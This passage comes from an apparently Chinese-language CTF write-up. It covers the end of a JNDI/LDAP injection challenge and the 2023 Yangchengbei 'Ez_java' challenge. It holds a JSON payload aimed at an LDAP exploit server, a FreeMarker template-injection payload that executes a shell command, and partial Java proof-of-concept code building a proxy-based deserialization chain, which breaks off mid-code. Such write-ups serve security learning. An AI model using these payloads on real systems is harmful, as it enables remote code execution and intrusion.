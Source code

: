 ```java  
    }    
}  
```  
exp 放入下面的`HackerLDAPRefServer.java`中  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411191854628.png)
payload  
```json  
{  
	&#34;ip&#34;:&#34;10.216.7.79&#34;,  
	&#34;port&#34;:1099,  
&#34;searchBase&#34;:&#34;dc\u003djavasec,dc\u003deki,dc\u003dxyz\u002f0&#34;,  
	&#34;filter&#34;:&#34;\u0028cn\u003dtest\u0029&#34;}  
```  
攻击成功  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411191855895.png)
# 2023羊城杯 Ez_java  
## 0x01 解题记录  
`sink`点在`HtmlMap#get()`方法处  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411202346588.png)
这里可以直接调用`HtmlUploadUtil#uploadfile()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411202347993.png)
可以写入`ftl`文件，此文件存在模版注入，payload 如下  
```java  
&lt;!DOCTYPE html&gt;&lt;html lang=\&#34;en\&#34;&gt;&lt;head&gt;&lt;metacharset=\&#34;UTF-8\&#34;&gt;&lt;#assign ac=springMacroRequestContext.webApplicationContext&gt;&lt;#assign fc=ac.getBean(&#39;freeMarkerConfiguration&#39;)&gt;&lt;#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()&gt;&lt;#assign VOID=fc.setNewBuiltinClassResolver(dcr)&gt;${\&#34;freemarker.template.utility.Execute\&#34;?new()(\&#34;touch /tmp/pwned\&#34;)}&lt;/head&gt;&lt;body&gt;&lt;/body&gt;&lt;/html&gt;  
```  
如何调用到`get()`方法，在`HtmlInvocationHandler`写了一个动态代理类,其中`invoke`方法，可以直接调用到`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411202350967.png)
这里直接用`java.reflect.Proxy`做一个代理，构造`exp`  
```java  
import com.ycbjava.Utils.HtmlInvocationHandler;    
import com.ycbjava.Utils.HtmlMap;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.ByteArrayOutputStream;    
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.lang.reflect.Field;    
import java.lang.reflect.Proxy;    
import java.util.Base64;    
import java.util.Map;    
    
public class Poc {    
    public static void main(String[] args) throws Exception{    
        HtmlMap htmlMap = new HtmlMap();    
        htmlMap.filename = &#34;index.ftl&#34;;    
        htmlMap.content = &#34;&lt;!DOCTYPE html&gt;&lt;html lang=\\\&#34;en\\\&#34;&gt;&lt;head&gt;&lt;metacharset=\\\&#34;UTF-8\\\&#34;&gt;&lt;#assign ac=springMacroRequestContext.webApplicationContext&gt;&lt;#assign fc=ac.getBean(&#39;freeMarkerConfiguration&#39;)&gt;&lt;#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()&gt;&lt;#assign VOID=fc.setNewBuiltinClassResolver(dcr)&gt;${\\\&#34;freemarker.template.utility.Execute\\\&#34;?new()(\\\&#34;touch /tmp/pwned\\\&#34;)}&lt;/head&gt;&lt;body&gt;&lt;/body&gt;&lt;/html&gt;&#34;;    
        Map proxyMap = (Map) Proxy.newProxyInstance(Poc.class.getClassLoader(), new Class[]{Map.class}, new HtmlInvocationHandler(htmlMap));    
```